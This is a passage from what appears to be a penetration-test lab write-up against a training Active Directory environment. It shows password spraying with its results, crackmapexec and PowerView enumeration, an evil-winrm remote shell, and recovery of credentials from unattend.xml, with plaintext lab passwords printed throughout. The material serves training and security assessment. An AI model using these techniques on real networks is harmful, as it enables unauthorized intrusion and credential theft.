 ### 💥 Domain-Wide Password Attack
```powershell
# DomainPasswordSpray execution
Invoke-DomainPasswordSpray -Password Welcome1

# Results:
[*] Password spraying against 2913 accounts
[*] SUCCESS! User:kdenunez Password:Welcome1
[*] SUCCESS! User:mmertle Password:Welcome1

# Assessment:
- 2 successful authentications
- Accounts have standard user privileges
- Document as finding: Weak Active Directory Passwords
```

### 🔍 Additional Enumeration Techniques
```bash
# GPP autologin search
proxychains crackmapexec smb 172.16.8.3 -u ssmalls -p Str0ngpass86! -M gpp_autologin
# Result: No Registry.xml files found

# AD user description analysis
Get-DomainUser * | select samaccountname,description | ?{$_.Description -ne $null}
# Found: frontdesk - "ILFreightLobby!" (limited privileges)
# Document as finding: Passwords in AD User Description Field
```

## 🖥️ MS01 Host Compromise

### 🔑 WinRM Access Discovery
```bash
# WinRM port enumeration
proxychains nmap -sT -p 5985 172.16.8.50
# Result: 5985/tcp open wsman

# Authentication with backupadm
proxychains evil-winrm -i 172.16.8.50 -u backupadm
# Success: Remote shell access to ACADEMY-AEN-MS01
```

### 🔺 Local Privilege Escalation
```bash
# Standard privilege checks
whoami /priv
# Result: No useful privileges

# Unattend.xml credential discovery
type c:\panther\unattend.xml
# Found AutoLogon credentials:
<Username>ilfserveradm</Username>
<Password><Value>Sys26Admin</Value></Password>

# User verification
net user ilfserveradm
# Result: Remote Desktop Users membership (non-admin)
```
